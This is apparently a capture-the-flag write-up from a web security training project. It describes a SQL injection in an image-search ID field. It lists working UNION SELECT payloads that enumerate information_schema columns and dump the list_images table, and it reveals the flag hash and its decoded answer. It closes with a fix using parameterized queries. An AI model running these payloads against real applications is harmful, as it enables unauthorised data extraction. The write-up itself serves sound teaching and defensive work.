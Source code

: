 
# Search images by ID

### Introduction

This breach is the same as the MEMBERS breach, explained -> [SQL Injection Members](https://github.com/guysharony/darkly/blob/main/SQL%20Injection%20MEMBERS/Ressources/explanations.md)

### Procedure

``1 UNION SELECT column_name, table_name FROM information_schema.columns``

```
ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns 
Title: list_images
Url : id

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns 
Title: list_images
Url : url

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns 
Title: list_images
Url : title

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns 
Title: list_images
Url : comment

```

We successfully retrieved all the corresponding tables and columns:

- id
- url
- title
- comment

Therefore, we can extract data from the users table with the following command:

``1 UNION SELECT url, title FROM list_images``

``` 
ID: 1 UNION SELECT url, title FROM list_images 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 UNION SELECT url, title FROM list_images 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 UNION SELECT url, title FROM list_images 
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 UNION SELECT url, title FROM list_images 
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 UNION SELECT url, title FROM list_images 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```
Hack me ? Ok, this one seems interesting !
We have identified the table corresponding to the Flag; the rest should be in the other columns. A simple search among several columns will display the flag.

``1 UNION SELECT title, comment FROM list_images``

```
ID: 1 UNION SELECT title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

### Decrypt the password

To decrypt the password, we use the MD5 Decrypt tool, converting ``1928e8083cf461a51303633093573c46`` to ``albatroz``, then encrypt it with a SHA-256 tool, resulting in ``f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188``.

### How to fix 

We can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also know as "prepared statements".

### Sources

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

